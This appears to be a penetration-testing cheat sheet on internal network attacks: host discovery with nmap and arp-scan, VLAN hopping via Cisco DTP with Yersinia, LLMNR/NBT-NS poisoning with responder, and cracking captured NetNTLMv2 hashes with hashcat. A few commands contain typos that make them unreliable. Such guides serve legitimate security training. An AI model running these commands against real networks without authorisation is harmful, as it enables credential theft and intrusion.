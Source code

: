 # Host / Local Network Discovery

Once on an internal network the first stage is to discover hosts that are live.  The following section will detail software along with associated commands for achieving this task.

## Address Resolution Protocol (ARP) Host Discovery

The ARP protocol can be used on a network to discover live hosts in a subnet.  A tool named **arp-scan** can be used to achieve this task:

`arpscan --interface eth0 --localnet`

This command will generate an ARP broadcast on the localsubnet for the eth0 interface.  Note the interface would need to be changed dependent on the network you are aiming to scan.  E.G for Wireless networks the default interface is often wlan0.  If a host is live it will be shown in the output from the command.

Similar tools that can be used:
`netdiscover -r 192.168.X.X`

## Internet Control Message Protocol (ICMP) Ping Scan

The network scanning tool **Nmap** can also be used to indentify live hosts by conducting a ping scan.  This will send out ICMP (ping) packets to each of the hosts specified.  If a host is live and configured to respond to ICMP ping requests, it will respond with an acknowledgement thus confirming the host is live:

`nmap -sn -vv -192.168.X.X/24`

This command uses nmap to initiate a ping scan (-sn) of all 254 hosts in the /24 (255.255.255.0) subnet for the 192.168.X.X network.  The ip address and subnet would need to be changed to match the network you are scanning.

## Nmap TCP Scan

Nmap can also be used to conduct a TCP scan of a specified port accross an entire subnet.  If any of the hosts are live and listening on the specified port, Nmap will output the host as being live:

`nmap -sP -PT80 192.168.X.X/24`

This command uses nmap to initiate a TCP host discovery scan (-sP) of all 254 hosts in the /24 (255.255.255.0) subnet for the 192.168.X.X network, looking for port 80.  For this scan to be effective, a commonly open port must be chosen - E.G port 445 (SMB) for Windows hosts, or port 22 (SSH) for Linux hosts.


## 802.lQ Cisco Dynamic Trunking Protocol (DTP) 

The VLAN protocol DTP is commonly used by Ciso devices to connect switches together via a "trunk". If the switch is in Dynamic Trunking mode, it is possible to analyse the DTP packets, emulate anoher switch, and hop on to a VLAN of the attacers choice.

The dtpscan script found at https://github.com/commonexploits/dtpscan, can be used to detect DTP packets and identify what mode the switches on the network are in, and whether it's possible to perform a VLAN hopping attack. To run the script in Kali Linux use:

`./dtpscan.sh`

If it's found to be possible, Yersinia, which is built into Kali Linux, can be used to enable trunking and attain a list of VLANs with associated IP addresses.

`yersinia -I` will start the program and will allow you to select the interface using the `a and b` keys on the keyboard. Then press `x` for DTP mode and press `1` to enable dynamic trunking. Pressing `g` at this point will show the VLANs and associated IP addresses within the GUI.

Once a VLAN has been identified, a virtual interface can be configured within Kali Linux:

```
modprobe 8021q
vconfig add <interface> <vlan_number>
dhclient <interface>.<vlan_number>
```

To check this is configured correctly the `ifconfig <interface>.<vlan_number>` or `ip a` commands can be ran.

*Reference: Pages 90-91, Network Security Assessment Volume 3, Chris Mcnab, Oreilly Publishers*

## LLMNR, NBT-NS and mDNS

NBT-NS: 137 UDP
LLMNR: 5355 UDP
mDNS: 5353 UDP

Both Link-Local Multicast Name Resolution and Net BIOS Name Service are used by Microsoft systems on the local network when DNS name resolution fails. It is possible to use a tool like `responder` to Man-In-The-Middle (MITM) and intercept failed lookups, in order to obtain Net NTLMv2 hashes:

`responder - <interface> -rdwv`

The responder arguments shown:

```
  -r, --wredir          Enable answers for netbios wredir suffix queries.
                        Answering to wredir will likely break stuff on the
                        network. Default: False
  -d, --NBTNSdomain     Enable answers for netbios domain suffix queries.
                        Answering to domain suffixes will likely break stuff
                        on the network. Default: False
  -w, --wpad            Start the WPAD rogue proxy server. Default value is

  -v, --verbose         Increase verbosity.
```

Any failed lookups, I.E. `\\nonexistant-host\folder` will be captured by responder and result in a NTLMv2 hash being captured. Any NTLMv2 hashes can be cracked using either John The Ripper or Hashcat in order to obtain plaintext credentials.  The hash returned will look like:

```
Administrator::WIN-487IMQOIA8E:997b18cc61099ba2:3CC46296B0CCFC7A231D918AE1DAE521:0101000000000000B09B51939BA6D40140C54ED46AD58E890000000002000E004E004F004D00410054004300480001000A0053004D0042003100320004000A0053004D0042003100320003000A0053004D0042003100320005000A0053004D0042003100320008003000300000000000000000000000003000004289286EDA193B087E214F3E16E2BE88FEC5D9FF73197456C9A6861FF5B5D3330000000000000000
```

Hashcat can be used with mode `5600` to crack the hash:

```
hashcat -m 5600 <file-containing-hash.txt> /path/to/password-list.txt
```

